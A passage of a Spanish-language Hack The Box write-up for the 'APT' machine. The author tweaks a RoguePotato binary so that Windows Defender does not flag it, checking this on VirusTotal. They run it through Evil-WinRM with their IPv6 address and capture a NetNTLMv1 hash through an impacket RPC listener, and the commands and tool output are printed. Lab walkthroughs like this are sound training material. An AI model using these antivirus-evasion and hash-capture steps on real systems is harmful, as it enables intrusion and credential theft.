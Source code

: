 Ahora ya puedo ejecutarlo

Para comprobar de una manera más rápida si el binario lo va a detectar como malicioso o no, desde [Virustotal](https://www.virustotal.com/gui/home/upload) filtrando por Microsoft se puede saber

<img src="/writeups/assets/img/APT-htb/18.png" alt="">

Y ahora ejecuta sin problemas

```null
*Evil-WinRM* PS C:\Temp> .\RoguePotato.exe


	Cualquier cosa


```

Después de todo, ya tengo subido el binario con soporte para IPv6 y sin que lo detecte Windows Defender

Me pongo en escucha por el puerto 135 (RPC)

Copio mi IPv6 se la paso como argumento al RoguePotato

Recibo la petición al puerto 135 y al montar un servicio RPC con impacket y recibo el hash NetNTLMv1

```null
*Evil-WinRM* PS C:\Temp> .\RoguePotato.exe -r e80::7b96:147d:d784:8491 -e cmd
[+] Starting CualquierCosa...
[!] RogueOxidResolver not run locally. Ensure you run it on your remote machine
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\CualquierCosa\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:130 bytes
[-] Named pipe didn't received any connect request. Exiting ...
```

